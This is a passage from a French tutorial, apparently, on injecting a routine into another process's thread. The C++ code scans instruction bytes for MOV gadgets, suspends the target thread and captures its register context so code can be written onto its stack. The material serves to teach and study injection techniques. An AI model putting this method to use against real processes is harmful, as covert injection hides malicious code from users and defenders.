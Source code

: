 ```c++
      {
          *offset = *(*address + 2);
          BYTE Ev = *(*address + 1) >> 3 & 0x07 ;
          BYTE Gv =    *(*address + 1) & 0x07 ;
 
          if(Ev == Gv) return NULL;
 
          if( !GoodReg[Ev] || !GoodReg[Gv] ) return NULL;
 
          Ev = Ev << 4;
 
          *regs = Ev | Gv;
 
          *address += 3;
 
          return *address - 3;
      }
      else
      {
           if( (*(*address + 1) & 0x28) == 0x28 ) return NULL; //exception !
 
           *offset = 0;
           BYTE Ev = *(*address + 1) >> 3 & 0x07 ;
           BYTE Gv =    *(*address + 1) & 0x07 ;
 
           if(Ev == Gv) return NULL;
 
           if( !GoodReg[Ev] || !GoodReg[Gv] ) return NULL;
 
           Ev = Ev << 4;
 
           *regs = Ev | Gv;
 
           *address += 2;
 
           return *address - 2;
      }
 
      return NULL;
}
```
Enfin nous, maintenant que nous avons les instructions nécessaires permettant une écriture sécurisé. Nous allons écrire notre routine au dessus de la pile du Thread cible.
Il nous faudra avant tout placer l’adresse de notre JMP $ pour le RET dû au passage dans notre MOV :
```c++
    if(SuspendThread(hThread) == -1)goto exit;
 
    CONTEXT Context;
    CONTEXT SafeContext;      //On sauvegarde le context d'origine.
    Context.ContextFlags = CONTEXT_FULL;
 
    if(!GetThreadContext(hThread, &Context))goto exit;
 
    SafeContext = Context;
 
    LPDWORD PtrToRegContext[9];
 
    PtrToRegContext[3] = &Context.Ebx;
    PtrToRegContext[5] = &Context.Ebp;
    PtrToRegContext[6] = &Context.Esi;
    PtrToRegContext[7] = &Context.Edi;
 
```